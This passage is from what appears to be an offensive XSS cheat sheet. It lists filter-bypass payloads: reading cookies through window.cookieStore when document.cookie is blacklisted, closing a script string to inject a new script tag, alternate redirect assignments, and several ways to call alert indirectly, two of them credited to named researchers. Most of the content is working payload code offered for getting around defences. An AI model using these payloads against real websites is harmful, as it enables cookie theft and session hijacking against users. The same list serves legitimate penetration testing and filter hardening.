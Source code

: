 ## Bypass document.cookie Blacklist

This is another way to access cookies on Chrome, Edge, and Opera. Replace COOKIE NAME with the cookie you are after. You may also investigate the getAll() method if that suits your requirements.

```js
window.cookieStore.get('COOKIE NAME').then((cookieValue)=>{alert(cookieValue.value);});
```

## Bypass using Javascript Inside a String

```javascript
<script>
foo="text </script><script>alert(1)</script>";
</script>
```

## Bypass using an Alternate Way to Redirect

```javascript
location="http://google.com"
document.location = "http://google.com"
document.location.href="http://google.com"
window.location.assign("http://google.com")
window['location']['href']="http://google.com"
```

## Bypass using an Alternate Way to Execute an Alert

From [@brutelogic](https://twitter.com/brutelogic/status/965642032424407040) tweet.

```javascript
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['alert'](6)

[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
```

From [@theMiddle](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/) - Using global variables

The Object.keys() method returns an array of a given object's own property names, in the same order as we get with a normal loop. That's means that we can access any JavaScript function by using its **index number instead the function name**.
